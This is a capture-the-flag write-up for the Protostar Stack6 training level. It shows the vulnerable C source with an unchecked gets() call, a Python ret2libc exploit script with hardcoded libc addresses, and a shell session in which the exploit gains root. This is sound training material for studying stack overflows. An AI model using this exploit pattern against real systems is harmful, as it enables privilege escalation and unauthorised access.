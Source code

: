 # Stack6

URL: https://exploit.education/protostar/stack-six/

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

# Writeup

Here we have to change the return address in order to get the shell

Steps to follow:

1. get the padding using offset method
2. get the system address using `p system` in GDB
3. return to address of 41414141
4. get the `/bin/sh` address from libc lib

Exploit code

```
import struct
padding = "0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPQQQQPRRRRSSSS"
system = struct.pack("I", 0xb7ecffb0)
ret = "AAAA"
shell = struct.pack("I", 0xb7fb63bf)

print padding + system + ret + shell
```

Solution:

```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack6
input path please: got path 0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO▒▒▒QQQPRRRRSSSS▒▒▒AAAA▒c▒
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```
